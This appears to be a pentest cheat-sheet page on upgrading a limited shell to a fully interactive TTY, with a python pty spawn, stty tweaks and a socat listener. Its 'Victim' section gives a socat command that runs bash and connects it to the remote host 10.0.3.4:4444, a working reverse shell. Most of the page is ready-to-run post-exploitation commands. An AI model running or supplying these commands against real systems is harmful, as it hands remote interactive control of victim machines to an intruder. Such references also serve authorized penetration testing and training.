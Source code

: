 
# Interactive shell

> Often during pen tests you may obtain a shell without having tty, yet wish to interact further with the system. Here are some commands which will allow you to spawn a tty shell. Obviously some of this will depend on the system environment and installed packages.

## Python psuedo terminal

```shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Python fully Interactive TTY

### 1. Spawn a TTY shell
```shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

### 2. Upgrade to Full Interactive Shell
```shell
export TERM=xterm
```

```shell
[Ctrl + Z]
```

```shell
stty raw -echo; fg
```

```shell
stty rows 38 columns 116
```

## Socat shell

### Listener

```shell
socat file:`tty`,raw,echo=0 tcp-listen:4444
```
### Victim

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

## 📚 References

* [blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
* [fahmifj.medium.com/get-a-fully-interactive-reverse-shell-b7e8d6f5b1c1](https://fahmifj.medium.com/get-a-fully-interactive-reverse-shell-b7e8d6f5b1c1)
